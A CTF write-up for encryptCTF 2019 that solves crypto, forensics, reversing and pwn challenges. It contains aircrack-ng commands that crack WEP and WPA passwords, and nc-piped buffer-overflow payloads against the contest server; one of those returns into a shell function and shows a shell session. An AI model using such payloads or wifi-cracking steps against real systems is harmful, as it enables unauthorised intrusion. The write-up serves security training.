




# 2019-04-02-encryptCTF #

[CTFTime link](https://ctftime.org/event/771) | [Website](https://ctf.encryptcvs.cf/)

---

## Challenges ##

### Cryptography ###

 - [x] [75 Hard Looks](#75-cryptography--hard-looks)
 - [x] [100 RSA_Baby](#100-cryptography--rsa_baby)
 - [x] [100 Julius,Q2Flc2FyCg==](#100-cryptography--juliusq2flc2fycg)
 - [x] [150 (TopNOTCH)SA](#150-cryptography--topnotchsa)
 - [x] [200 AEeeeeS](#200-cryptography--aeeeees)

### Forensics ###

 - [x] [10 Get Schwifty](#10-forensics--get-schwifty)
 - [x] [50 It's a WrEP](#50-forensics--its-a-wrep)
 - [x] [75 Journey to the centre of the file 1](#75-forensics--journey-to-the-centre-of-the-file1)
 - [x] [100 Wi Will H4CK YOU!!](#100-forensics--wi-will-h4ck-you)
 - [x] [150 Journey to the centre of the file 2](#150-forensics--journey-to-the-centre-of-the-file2)

### Misc ###

 - [x] [1 sanity check](#1-misc--sanity-check)
 - [x] [50 Way Back](#50-misc--way-back)
 - [ ] [50 crack-jack](#50-misc--crack-jack)
 - [x] [50 ham-me-baby-2](#50-misc--ham-me-baby-2)

### Pwn ###

 - [x] [25 pwn0](#25-pwn--pwn0)
 - [x] [50 pwn1](#50-pwn--pwn1)
 - [x] [100 pwn2](#100-pwn--pwn2)
 - [x] [300 pwn3](#300-pwn--pwn3)
 - [x] [300 pwn4](#300-pwn--pwn4)

### Reversing ###

 - [x] [75 crackme01](#75-reversing--crackme01)
 - [x] [150 crackme02](#150-reversing--crackme02)
 - [x] [250 crackme03](#250-reversing--crackme03)
 - [x] [500 dontlook at this Challenge](#500-reversing--dontlook-at-this-challenge)

### Steganography ###

 - [x] [25 yhpargonagets](#25-steganography--yhpargonagets)
 - [x] [50 Into The Black](#50-steganography--into-the-black)
 - [ ] [100 Stressed out?](#100-steganography--stressed-out)

### Web ###

 - [x] [50 Sweeeeeet](#50-web--sweeeeeet)
 - [x] [50 Slash Slash](#50-web--slash-slash)
 - [x] [100 vault](#100-web--vault)
 - [ ] [100 Env](#100-web--env)
 - [x] [150 repeaaaaaat](#150-web--repeaaaaaat)

---

## 75 Cryptography / Hard Looks ##

**Description**

> Does this look hard?
> 
> CipherText:
> ```--_--___--_-_-__--_--__--__-_-__--_--___--__--__--_---__--__-___--_---__---__-__--_---__--______--_---__--_-____--_-____--__--__--_-_-__--_-____--_-____--_--___--_---_--___-___--_-_-__--_---__--__--__--_-____--__--__--_-_-__--_-_-_--__--___--__--__--___-__--__--__--_---__--_-_-_--__--___--_-____---_____--__--__--_-____--_-_-__--__-___--_-____--_-____--_-_-_--__--___--__--__--__--__--_-___--__-_-__--__--__--______--_-_-__--_-_-__--_-____--_---__--_-____---_____--__--_--__--___--__-___--___-__--_---_--__-__```
> 
> ```Author: @mostwanted002```

**No files provided**

**Solution**

We can replace `-` with `1` and `\_` with `0`. We can add two `0` characters at the beginning of the text to have a multiple of 8 for easier decoding from binary. This results in:

    656e63727970744354467b5734355f31375f483452445f334e305547483f217d

Which decodes into:

`encryptCTF{W45_17_H4RD_3N0UGH?!}`

## 100 Cryptography / RSA_Baby ##

**Description**

> RSA is one of the first public-key cryptosystems and is widely used for secure data transmission. In such a cryptosystem, the encryption key is public and it is different from the decryption key which is kept secret.
> 
> Google up, understand it, and the flag was encrypted with this <span style="color:#990000;">attached Python Script.</span>
> 
> 
> ```Author: @mostwanted002```

**Files provided**

 - [`flag`](files/rsa_baby-flag.enc)
 - [`encrypt`](files/rsa_baby-encrypt.py)

**Solution**

One of the primes (`q`) is hardcoded and we are given the modulus `n` in the ciphertext. We can recover `p`:

```python
>>> p = n // q
>>> p
13030877962244354814511445069542882449581922607390244121691806992913837762209651753257058518168164120459969457411474677047559297768866334000219225111914353
```

Then we simply follow the decryption steps:

```python
>>> import gmpy2
>>> e = 65537
>>> phi = (p - 1) * (q - 1)
>>> d = gmpy2.invert(e, phi)
>>> c = 0x1899b6cd310966281b1593a420205588f12ab93af850ad7d9d810a502f6fe4ad93a58b5bbb747803ba33ac94cc5f227761e72bdd9857b7b0227f510683596791526b9295b20be39567fc9a556663e3b0e3fcc5b233e78e38a06b29314d897258fbe15b037d8ff25d272822571dd98dfa4ee5d066d707149a313ad0c93e79b4ee
>>> hex(pow(c, d, n))
'0x656e63727970744354467b37344b314e475f423442595f53373350537d0a'
```

Which decodes to:

`encryptCTF{74K1NG_B4BY_S73PS}`

## 100 Cryptography / Julius,Q2Flc2FyCg== ##

**Description**

> World of Cryptography is like that Unsolved Rubik's Cube, given to a child that has no idea about it. A new combination at every turn.
> 
> Can you solve this one, with weird name?
> 
> ciphertext: `fYZ7ipGIjFtsXpNLbHdPbXdaam1PS1c5lQ`
> 
> ```Author:@mostwanted002```

**No files provided**

**Solution**

We can use `base64` to decode the ciphertext, but it contains some high (non-ASCII) bytes:

```bash
$ base64 -D <<<"fYZ7ipGIjFtsXpNLbHdPbXdaam1PS1c5lQ" | xxd
0000000: 7d86 7b8a 9188 8c5b 6c5e 934b 6c77 4f6d  }.{....[l^.KlwOm
0000010: 775a 6a6d 4f4b 5739                      wZjmOKW9
```

We also know that the flag is in the format `encryptCTF{...}`, so the first character (`0x7D`) should actually be `e` (`0x65`). Based on the name of the challenge (`Julius Caesar` -> [Caesar cipher](https://en.wikipedia.org/wiki/Caesar_cipher)), we should shift each byte by the same amount.

```haxe
class Solve {
  public static function main():Void {
    var dec = haxe.crypto.Base64.decode("fYZ7ipGIjFtsXpNLbHdPbXdaam1PS1c5lQ");
    Sys.println([ for (i in 0...dec.length) String.fromCharCode(dec.get(i) - (0x7D - 0x65)) ].join(""));
  }
}
```

`encryptCTF{3T_7U_BRU73?!}`

## 150 Cryptography / (TopNOTCH)SA ##

**Description**

> This admin's Obsession with RSA is beyond crazy, it's like he's being guided by some people more supreme, the top Notch of 7 Billion....
> 
> Anyways, here's the archive, you know the deal. GodSpeed!
> 
> ```Author:@mostwanted002```

**Files provided**

 - [`topNotch`](files/topnotchsa-topnotch.zip)

**Solution**

In this RSA challenge we are given the public key in a PEM format. We can read it out using `openssl`:

```bash
$ openssl rsa -pubin -in pubkey.pem -text -noout
Public-Key: (255 bit)
Modulus:
    7f:fd:2b:1a:a7:27:47:f6:a0:1b:9f:96:77:78:7b:
    a1:72:90:93:3e:3a:46:64:0c:ee:55:38:34:32:09:
    ab:d1
Exponent: 65537 (0x10001)
```

The we can use e.g. [`yafu`](https://sourceforge.net/projects/yafu/) to factor this key, since it is quite small.

```bash
$ yafu
...
factor(0x7ffd2b1aa72747f6a01b9f9677787ba17290933e3a46640cee5538343209abd1)
...
```

Which gives us:

    n = 0x7ffd2b1aa72747f6a01b9f9677787ba17290933e3a46640cee5538343209abd1
    p = 298348117320990514224871985940356407403
    q = 194038568404418855662295887732506969011

Then we simply follow the decryption steps as [before](#100-cryptography--rsa_baby) to obtain:

`encryptCTF{1%_0F_1%}`

## 200 Cryptography / AEeeeeS ##

**Description**

> ... he encrypted the flag Using AES ECB.
> 
> the key he gave, is below.
> 
> Is he mad?
> 
> <span style="color:#990000;">
> ```ciphertext:
> c68145ccbc1bd6228da45a574ad9e29a77ca32376bc1f2a1e4cd66c640450d77```</span>
> 
> ```Author: @mostwanted002```

**Files provided**

 - [`AEeeeeS`](files/aeeeees-aeeeees.key)

**Solution**

The `key` file actually contains a binary string, which we can decode:

```python
>>> binary = 0b110100001010100111001101110001011101000010100000110001001101100010100101100010011110010111010001100101011010110110010101111001
>>> key = binary.to_bytes(16, byteorder="big")
>>> key
b'4*sqt(16)bytekey'
```

Then we just AES decrypt, e.g. using PyCrypto:

```python
>>> import Crypto.Cipher.AES
>>> aes = Crypto.Cipher.AES.new(key, Crypto.Cipher.AES.MODE_ECB)
>>> cipher = 0xc68145ccbc1bd6228da45a574ad9e29a77ca32376bc1f2a1e4cd66c640450d77.to_bytes(32, 'big')
>>> aes.decrypt(cipher)
```

`encryptCTF{3Y3S_4R3_0N_A3S_3CB!}`

## 10 Forensics / Get Schwifty ##

**Description**

> <p> Evil Morty, the first democratically-elected President of the Citadel of Ricks, has killed off twenty-seven known Ricks from various dimensions, as well as capturing, torturing, and enslaving hundreds of Mortys. As a fellow Rick-less Morty, Investigator Rick gives you a file revealing Evil Morty's past and true nature. However he cannot seem to access it. Can you help recover it to stop Evil Morty ? </p>
> 
> <a target="_blank" href="https://imgur.com/aMjDe5C">meme</a><br>
> <strong>Download file here:</strong> <a target="_blank" href="https://drive.google.com/open?id=1XxqRFFpn9Zj7gNQ6Ahg74rTAFPbkeNq9">link</a><br>
> <span style="color:#e83e8c;">Author: maskofmydisguise</span>

**Files provided**

- [GetSchwifty.img](files/GetSchwifty.7z)

**Solution**


We are provided with a disk image, when opened is empty. In order to recover the files we can use foremost

```bash
$ foremost GetSchwifty.img
```

This creates a folder named output which will contain the files that foremost could recover. One of the png has the flag.

`encryptCTF{alw4ys_d3lete_y0ur_f1les_c0mpletely}`


**Alternative Solution** by ([ellamaark](https://github.com/ellamaark))

Instead of using foremost, one can use `binwalk` to extract files (using the `--dd` flag).

```bash
$ binwalk --dd='.*' GetSchwifty.img
```

This creates a folder `_GetSchwifty.img.extracted` with all the files, it could extract and outputs to the terminal the file and it's type which we can use to find the png that has the flag.


## 50 Forensics / It's a WrEP ##

**Description**

> Sniffed and Spoofed, but director called cut before final scene.
> Could you help Mr. Alderson to invade into eCorp?
> 
> Get the password for our Wifi Network "encryptCTF"
> 
> Submit flag as <span style="color:#990000;">encryptCTF{</password/>}</span>
> 
> <a href="https://drive.google.com/open?id=1uh8mSyBP17O6jxLoy1_v01s9yiRYa8sb">captured.cap</a>
> 
> 
> ```Author:@mostwanted002```

**Files provided**

- [encryptCTFWEP.cap](files/encryptCTFWEP.cap)

**Solution**

From the name of the challenge and description, we are trying to recover the password of a wifi network that is using WEP protocol.

Using the tool `aircrack-ng`, we can retrieve the password

```bash
aircrack-ng -a 1 encryptCTFWEP.cap
```

The -a 1 forces aircrack-ng's attack mode to WEP.



After running this command, it list's out the available networks in the pcap file and asks to pick one. After picking the network with the name `encryptCTF`,
aircrack tries to find the password.



It outputs the password `W45_17_R34L?!`

`encryptCTF{ W45_17_R34L?!}`


## 75 Forensics / Journey to the centre of the file 1 ##

**Description**

> "Nearly everything is really interesting if you go into it deeply enough …" - Richard Feynman
> 
> > ```  Author: maskofmydisguise ```

**Files provided**

 - [`ziptunnel1`](files/journeytothecentreofthefile1-ziptunnel1.gz)

**Solution**

Unzip ad nauseam.

`encryptCTF{w422up_b14tch3s}`

## 100 Forensics / Wi Will H4CK YOU!! ##

**Description**

> Wifi Security Standards have been increased a lot in recent times.
> 
> But are they secure enough???
> Get the password for our Wifi Network "encryptCTF"
> 
> Submit flag as <span style="color:#990000;">encryptCTF{</password/>}</span>
> <a href="https://drive.google.com/open?id=1IqDZec42qoeTxgltKwie_8XszPX3OGBu">captured.cap</a>
> 
> ```Author:@mostwanted002```
> 

**Files provided**

 - [encryptCTFWPA.cap](files/encryptCTFWPA.cap)

**Solution**

This challenge is similar to [It's a WrEP](#50-forensics--its-a-wrep) challenge. The only difference is that it is using the WPA protocol instead of the WEP protocol. 

Using `aircrack-ng` again and waiting for a long time, give us the password.

```bash
$ aircrack-ng -a 2 -w rockyou.txt encryptCTFWPA.cap
```
We pass in a wordlist (rockyou.txt in this case) and picking the network to crack and waiting for quite some time, it outputs the password `ThanckYou`.


`encryptCTF{ThanckYou}`


## 150 Forensics / Journey to the centre of the file 2 ##

**Description**

> [_Improvise. Adapt. Overcome_](https://imgur.com/gallery/wMbXB "Improvise. Adapt. Overcome" )
> 
> > ```  Author: maskofmydisguise ```

**Files provided**

 - [`ziptunnel2`](files/journeytothecentreofthefile2-ziptunnel2)

**Solution**

Unzip ad nauseam #2: electric boogaloo.

**Note:** these challenges are trivial e.g. on OS X where any archive file can be double-clicked to unzip. This challenge has a file wrapped in many layers of differing archive / compression methods.

`encryptCTF{f33ls_g00d_d0nt_it?}`

## 1 Misc / sanity check ##

**Description**

> 

**No files provided**

**Solution**

The rules page contains the flag.

`encryptCTF{L3t5_H4CK}`

## 50 Misc / Way Back ##

**Description**

> `put the message in encryptCTF{}`

**Files provided**

 - `ENCRYPT` (file unavailable ...)

**Solution**

The file given showed a classic punched card (similar to e.g. [this one](https://commons.wikimedia.org/wiki/File:Used_Punchcard_(5151286161).jpg)). Using the decoding scheme on [the Wikipedia page](https://en.wikipedia.org/wiki/Punched_card):

         ______________________________________________
        /&-0123456789ABCDEFGHIJKLMNOPQR/STUVWXYZ
    12|  x           xxxxxxxxx
    11|   x                   xxxxxxxxx
     0|    x                           xxxxxxxxx
     1|     x        x        x        x
     2|      x        x        x        x
     3|       x        x        x        x
     4|        x        x        x        x
     5|         x        x        x        x
     6|          x        x        x        x
     7|           x        x        x        x
     8|            x        x        x        x
     9|             x        x        x        x
      |________________________________________________

We obtained the flag (more or less like):

`encryptCTF{B4TCH_PR0C355_571_N0T_50_G00D}`

## 50 Misc / crack-jack ##

**Description**

> Visuals are Deceptive
> 
> ```author: codacker```

**Files provided**

 - [`flag`](files/crackjack-flag.png)

## 50 Misc / ham-me-baby-2 ##

**Description**

> ham-me-baby is back and finally its fixed
> 
> server follows even parity
> sorry for inconvenience
> 
> <span style="color:#990000;">```nc 104.154.106.182 6969```</span>

**No files provided**

**Solution**

This is simply a programming challenge to implement the [Hamming(7,4)](https://en.wikipedia.org/wiki/Hamming(7,4)) error-correcting code.

[Full script here](scripts/Codes.hx)

```
$ haxe --run Codes
                        Welcome To 

     ____                       __    _______________  
    / __/__  __________ _____  / /_  / ___/_  __/ __/  
   / _// _ \/ __/ __/ // / _ \/ __/ / /__  / / / _/    
  /___/_//_/\__/_/  \_, / .__/\__/  \___/ /_/ /_/      
                ___/___/_/_____                        
               |_  |/ _ <  / _ \                       
              / __// // / /\_, /                       
             /____/\___/_//___/                        
                                                         

you will be receiving hamming(7,4) codes. your job is to send data bits
from a 7 bit hamming code. 
 ___________________________________________________________________
|                                                                   |
|   DO YOUR RESEARCH : https://en.wikipedia.org/wiki/Hamming(7,4)   |
|  FLAG WILL BE PRINTED AFTER YOU SEND CORRECT DATA BITS 100 TIMES  |
|___________________________________________________________________|

               the order of the bits followed is

                    P1 P2 D3 P4 D5 D6 D7


and come back here. remember somebits could be flipped. you need to send
correct data bits.

[*] CODE: 1011010
[*] DATA: CODE VALIDATED
[*] CODE: 1010101
[*] DATA: CODE VALIDATED
...
[*] CODE: 1010000
[*] DATA: CODE VALIDATED
[*] CODE: 1110010
[*] DATA: CODE VALIDATED
here's your flag: encryptCTF{1t_w4s_h4rd3r_th4n_1_th0ught}
```

`encryptCTF{1t_w4s_h4rd3r_th4n_1_th0ught}`

## 25 Pwn / pwn0 ##

**Description**

> How's the josh?
> 
> <span style="color:#990000;">```nc 104.154.106.182 1234```</span>
> 
> author: codacker

**Files provided**

 - [`pwn0`](files/pwn0-pwn0)

**Solution**

After decompilation:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char input[64]; // [esp+1Ch] [ebp-44h]
  char check[4]; // [esp+5Ch] [ebp-4h]

  setvbuf(stdout, 0, 2, 0);
  puts("How's the josh?");
  gets(input);
  if ( !memcmp(check, "H!gh", 4u) )
  {
    puts("Good! here's the flag");
    print_flag();
  }
  else
  {
    puts("Your josh is low!\nBye!");
  }
  return 0;
}
```

`gets` is used here on user input, which means we have a buffer overflow vulnerability, and we can override the value in `check`.

```bash
$ printf "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaH\x21gh\n" | nc 104.154.106.182 1234
How's the josh?
Good! here's the flag
```

(note `\x21` to escape a `!` which is special in `bash`)

`encryptCTF{L3t5_R4!53_7h3_J05H}`

## 50 Pwn / pwn1 ##

**Description**

> Let's do some real stack buffer overflow
> 
> <span style="color:#990000;">```nc 104.154.106.182 2345```</span>
> 
> author: codacker

**Files provided**

 - [`pwn1`](files/pwn1-pwn1)

**Solution**

After decompilation:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[128]; // [esp+10h] [ebp-80h]

  setvbuf(stdout, 0, 2, 0);
  printf("Tell me your name: ");
  gets(s);
  printf("Hello, %s\n", s);
  return 0;
}
```

There is also a `shell` function loaded at address `0x080484AD`:

```c
int shell()
{
  return system("/bin/bash");
}
```

We overflow the `s` buffer and a bit more to replace the return pointer with the address of `shell`.

```bash
$ (printf "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xAD\x84\x04\x08\n"; cat -) | nc 104.154.106.182 2345
Tell me your name: Hello, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa??
whoami
pwn1
ls
flag.txt
pwn1
cat flag.txt
```

`encryptCTF{Buff3R_0v3rfl0W5_4r3_345Y}`

## 100 Pwn / pwn2 ##

**Description**

> I made a simple shell which allows me to run some specific commands on my server can you test it for bugs?
> 
> <span style="color:#990000;">```nc 104.154.106.182 3456```</span>
> 
> author: codacker

**Files provided**

 - [`pwn2`](files/pwn2-pwn2)

**Solution**

(TODO)

## 300 Pwn / pwn3 ##

**Description**

> libc is such a nice place to hangout, isn't it?
> 
> <span style="color:#990000;">```nc 104.154.106.182 4567```</span>
> 
> author: codacker

**Files provided**

 - [`pwn3`](files/pwn3-pwn3)

**Solution**

(TODO)

## 300 Pwn / pwn4 ##

**Description**

> GOT is a amazing series!
> 
> <span style="color:#990000;">```nc 104.154.106.182 5678```</span>
> 
> author: codacker

**Files provided**

 - [`pwn4`](files/pwn4-pwn4)

**Solution**

(TODO)

## 75 Reversing / crackme01 ##

**Description**

> this is crackme01.
> 
> crackme01 is a crackme.
> 
> so crackme!
> 
> Author: @X3eRo0

**Files provided**

 - [`crackme01`](files/crackme01-crackme01)

**Solution**

We can decompile the `main` method in IDA to get:

```c
__int64 __fastcall main(__int64 argc, char **argv, char **envp)
{
  char input[20]; // [rsp+10h] [rbp-20h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  printf("Enter The Secret Code To Open the Vault: ", argv, envp, argv);
  fgets(input, 20, stdin);
  printf("\nFlag: ", 20LL);
  if ( input[1] == 'D' )
  {
    printf("en");
    if ( input[2] == 'D' )
    {
      printf("cryptCTF{BYE}");
      exit(0);
    }
    if ( input[2] == 1 )
    {
      printf("cry");
      if ( input[3] != 'A' )
        exit(0);
      printf("ptC");
      if ( input[5] != ' ' )
        exit(0);
      printf("TF{");
      if ( input[6] != '!' )
        exit(0);
      printf("gdb");
      if ( input[8] != 'e' )
        exit(0);
      printf("_or");
      if ( input[9] != '\x19' )
        exit(0);
      printf("_r2?");
      if ( input[10] != '\t' )
        exit(0);
      puts("}");
    }
  }
  return 0LL;
}
```

A password is read (could be brute-forced one character at a time if needed) from `stdin`. We can simply put the individual bits of the output together to assemble the flag:

`encryptCTF{gdb_or_r2?}`

## 150 Reversing / crackme02 ##

**Description**

> quack me!
> 
> ```author: Robyn12```

**Files provided**

 - [`crackme02`](files/crackme02-crackme02)

**Solution**

We decompile the binary with IDA again. `main` asks for a password, but then calls `sub_73A` to actually print the flag. We can decompile that function:

```c
__int64 __fastcall printFlag(int key)
{
  signed int i; // [rsp+1Ch] [rbp-34h]
  char encFlag[40]; // [rsp+20h] [rbp-30h]
  unsigned __int64 v4; // [rsp+48h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  *(_QWORD *)encFlag = 0x2E191D141F0E0308LL;
  *(_QWORD *)&encFlag[8] = 0x1F020A012C162B39LL;
  *(_QWORD *)&encFlag[16] = 0x203401E00051904LL;
  *(_DWORD *)&encFlag[24] = 0xC084019;
  *(_WORD *)&encFlag[28] = 0x141E;
  encFlag[30] = 0x10;
  for ( i = 0; i <= 30; ++i )
    putchar(key ^ encFlag[i]);
  return 0LL;
}
```

The important thing to note is that this function takes a single argument and it actually has to be in the range `[0, 255]` for `putchar` to print out valid bytes. We could brute force this easily.

However, we know the flag starts with `e` (`0x65`), and the encoded flag starts with `0x08`. Hence the key is `0x65 ^ 0x08 = 0x6D`.

    0x2E191D141F0E0308
    0x1F020A012C162B39
    0x0203401E00051904
    0x0C084019
    0x141E
    0x10
    -> (little endian to big endian)
    0x08030E1F141D192E
    0x392B162C010A021F
    0x041905001E400302
    0x1940080C
    0x1E14
    0x10
    -> (concatenate)
    08030E1F141D192E392B162C010A021F041905001E4003021940080C1E1410
    -> (pythonise)
    [0x08, 0x03, 0x0E, 0x1F, 0x14, 0x1D, 0x19, 0x2E, 0x39, 0x2B, 0x16, 0x2C, 0x01, 0x0A, 0x02, 0x1F, 0x04, 0x19, 0x05, 0x00, 0x1E, 0x40, 0x03, 0x02, 0x19, 0x40, 0x08, 0x0C, 0x1E, 0x14, 0x10]

```python
>>> encFlag = [0x08, 0x03, 0x0E, 0x1F, 0x14, 0x1D, 0x19, 0x2E, 0x39, 0x2B, 0x16, 0x2C, 0x01, 0x0A, 0x02, 0x1F, 0x04, 0x19, 0x05, 0x00, 0x1E, 0x40, 0x03, 0x02, 0x19, 0x40, 0x08, 0x0C, 0x1E, 0x14, 0x10]
>>> "".join([ chr(0x6D ^ x) for x in encFlag ])
```

`encryptCTF{Algorithms-not-easy}`

## 250 Reversing / crackme03 ##

**Description**

> tik-tok tik-tok can you defuse the bomb?
> 
> <span style="color:#990000;">```author: codacker```<br></span>
> <span style="color:#990000;">```nc 104.154.106.182 7777```</span>

**Files provided**

 - [`crackme03`](files/crackme03-crackme03)

**Solution**

In IDA we can find the `main` function as `sub1502`:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  signed int i; // [esp+0h] [ebp-68h]
  int (__cdecl *checkFuncs[5])(char *); // [esp+8h] [ebp-60h]
  char checkInput[64]; // [esp+1Ch] [ebp-4Ch]
  unsigned int stackCheck; // [esp+5Ch] [ebp-Ch]
  int *argc_; // [esp+60h] [ebp-8h]

  argc_ = &argc;
  stackCheck = __readgsdword(0x14u);
  checkFuncs[0] = checkFunc1;
  checkFuncs[1] = checkFunc2;
  checkFuncs[2] = checkFunc3;
  checkFuncs[3] = checkFunc4;
  checkFuncs[4] = checkFunc5;
  setvbuf(stdout, 0, 2, 0);
  puts("Hi!, i am a BOMB!\nI will go boom if you don't give me right inputs");
  for ( i = 0; i <= 4; ++i )
  {
    printf("Enter input #%d: ", i);
    __isoc99_scanf("%s", checkInput);
    checkFuncs[i](checkInput);
  }
  showFlag();
  result = 0;
  if ( __readgsdword(0x14u) != stackCheck )
    terminate();
  return result;
}
```

So we need to find 5 inputs for the 5 different functions.

```c
int __cdecl checkFunc1(char *s1)
{
  int result; // eax

  result = strcmp(s1, "CRACKME02");
  if ( result )
    boom();
  return result;
}
```

The first password is `CRACKME02`.

```c
int __cdecl checkFunc2(char *a1)
{
  int result; // eax

  result = *(_DWORD *)a1;
  if ( *(_DWORD *)a1 != 0xDEADBEEF )
    boom();
  return result;
}
```

The second password needs to be the four bytes `0xEF`, `0xBE`, `0xAD`, `0xDE` (so in little endian they read `0xDEADBEEF`).

```c
int __cdecl checkFunc3(char *a1)
{
  int result; // eax
  unsigned int v2; // et1
  size_t i; // [esp+10h] [ebp-28h]
  char s[4]; // [esp+17h] [ebp-21h]
  unsigned int v5; // [esp+2Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  strcpy(s, "ZXytUb9fl78evgJy3KJN");
  for ( i = 0; strlen(s) > i; ++i )
  {
    if ( s[i] != a1[i] )
      boom();
  }
  v2 = __readgsdword(0x14u);
  result = v2 ^ v5;
  if ( v2 != v5 )
    terminate();
  return result;
}
```

The third password is `ZXytUb9fl78evgJy3KJN` (compared one byte at a time).

```c
int __cdecl checkFunc4(char *s)
{
  int v1; // ST1C_4

  if ( strlen(s) > 3 )
    boom();
  v1 = atoi(s);
  if ( v1 * v1 * v1 + 2 * (2 * v1 * v1 - v1) - 3 )
    boom();
  return puts("SUBSCRIBE TO PEWDIEPIE");
}
```

The fourth password is a number less than 1000 (string length <= 3) that satisfies the formula `x * x * x + 2 * (2 * x * x - x) - 3 == 0`. We can simply check all the possible numbers with Python, but it turns out the solution, and hence the password, is `1`.

```c
int __cdecl checkFunc5(char *a1)
{
  int result; // eax
